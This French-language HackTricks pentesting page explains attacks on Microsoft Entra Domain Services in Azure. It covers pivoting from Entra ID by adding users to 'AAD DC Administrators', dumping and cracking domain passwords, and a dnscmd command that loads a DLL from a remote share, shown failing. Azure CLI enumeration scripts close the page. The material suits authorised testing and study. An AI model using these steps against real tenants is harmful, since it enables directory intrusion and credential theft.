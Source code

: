 # Az - Microsoft Entra Domain Services

{{#include ../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services permet de déployer un Active Directory dans Azure sans avoir besoin de gérer les contrôleurs de domaine (en fait, vous n'y avez même pas accès).

Son objectif principal est de vous permettre d'exécuter des applications héritées dans le cloud qui ne peuvent pas utiliser des méthodes d'authentification modernes, ou lorsque vous ne souhaitez pas que les recherches dans l'annuaire retournent toujours à un environnement AD DS sur site.

Notez que pour synchroniser les utilisateurs générés dans Entra ID (et non synchronisés à partir d'autres annuaires actifs) avec le service de domaine AD, vous devez **changer le mot de passe de l'utilisateur** pour un nouveau afin qu'il puisse être synchronisé avec le nouvel AD. En fait, l'utilisateur n'est pas synchronisé de Microsoft Entra ID vers les Domain Services tant que le mot de passe n'est pas changé.

> [!WARNING]
> Même si vous créez un nouveau domaine Active Directory, vous ne pourrez pas le gérer complètement (sauf en exploitant certaines mauvaises configurations), ce qui signifie qu'en règle générale, vous ne pouvez pas créer d'utilisateurs directement dans l'AD. Vous les créez en **synchronisant des utilisateurs depuis Entra ID.** Vous pouvez indiquer de synchroniser tous les utilisateurs (même ceux synchronisés depuis d'autres AD sur site), uniquement les utilisateurs cloud (utilisateurs créés dans Entra ID), ou même **les filtrer davantage**.

> [!NOTE]
> En général, en raison du manque de flexibilité dans la configuration du nouveau domaine et du fait que les AD sont généralement déjà sur site, ce n'est pas l'intégration principale entre Entra ID et AD, mais il est tout de même intéressant de savoir comment le compromettre.

### Pivoting

Les membres du groupe généré **`AAD DC Administrators`** se voient accorder des permissions d'administrateur local sur les VM qui sont jointes au domaine géré (mais pas dans les contrôleurs de domaine) car ils sont ajoutés au groupe des administrateurs locaux. Les membres de ce groupe peuvent également utiliser **Remote Desktop pour se connecter à distance aux VM jointes au domaine**, et sont également membres des groupes :

- **`Denied RODC Password Replication Group`** : Il s'agit d'un groupe qui spécifie les utilisateurs et groupes dont les mots de passe ne peuvent pas être mis en cache sur les RODC (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`** : Ce groupe permet aux membres de créer des stratégies de groupe dans le domaine. Cependant, ses membres ne peuvent pas appliquer de stratégies de groupe aux utilisateurs ou groupes ni modifier les GPO existantes, donc ce n'est pas très intéressant dans cet environnement.
- **`DnsAdmins`** : Ce groupe permet de gérer les paramètres DNS et a été abusé par le passé pour [escalader des privilèges et compromettre le domaine](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), cependant après avoir testé l'attaque dans cet environnement, il a été vérifié que la vulnérabilité est corrigée :
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
Notez que pour accorder ces autorisations, à l'intérieur de l'AD, le groupe **`AAD DC Administrators`** est devenu membre des groupes précédents, et également le GPO **`AADDC Computers GPO`** ajoute en tant qu'administrateurs locaux tous les membres du groupe de domaine **`AAD DC Administrators`**.

Le pivotement d'Entra ID vers un AD créé avec Domain Services est simple, il suffit d'ajouter un utilisateur dans le groupe **`AAD DC Administrators`**, d'accéder via RDP à n'importe quelle/toutes les machines du domaine et vous pourrez voler des données et également **compromettre le domaine.**

Cependant, le pivotement du domaine vers Entra ID n'est pas aussi facile car rien du domaine n'est synchronisé dans Entra ID. Cependant, vérifiez toujours les métadonnées de toutes les VM jointes car leurs identités gérées assignées pourraient avoir des autorisations intéressantes. De plus, **dump toutes les mots de passe des utilisateurs du domaine** et essayez de les craquer pour ensuite vous connecter à Entra ID / Azure.

> [!NOTE]
> Notez qu'auparavant, d'autres vulnérabilités dans cet AD géré ont été trouvées, permettant de compromettre les DC, [comme celle-ci](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). Un attaquant compromettant le DC pourrait très facilement maintenir la persistance sans que les administrateurs Azure ne s'en aperçoivent ou même ne puissent l'enlever.

### Énumération
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../banners/hacktricks-training.md}}
